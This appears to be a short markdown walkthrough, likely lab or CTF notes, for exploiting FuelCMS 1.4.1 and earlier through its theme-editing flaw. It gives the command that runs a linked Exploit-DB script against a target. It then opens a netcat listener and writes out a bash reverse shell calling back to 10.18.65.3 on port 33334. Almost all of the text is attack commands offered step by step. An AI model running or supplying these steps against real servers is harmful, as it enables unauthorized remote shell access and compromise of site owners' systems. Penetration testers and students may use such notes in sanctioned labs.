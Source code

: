 # FuelCMS - Modify theme to include PHP code

## Requirements

 - FuelCMS version <= 1.4.1

## Exploitation

### Download the exploit 

https://www.exploit-db.com/exploits/50477
![](./imgs/exploit.png)

### Trigering the exploit

```
python exploit.py -u http://TARGET/ 

```
![](./imgs/exploit_trigger.png)

### Setting up a netcat listener

```
nc -lvnp 33334

```
![](./imgs/stable_shell.png)

### Get a stabilized shell

```
echo "sh -i >& /dev/tcp/10.18.65.3/33334 0>&1" > /tmp/shell.sh; bash /tmp/shell.sh

```
![](./imgs/shell_result.png)

## References
 - https://www.getfuelcms.com/
 - https://www.exploit-db.com/exploits/50477
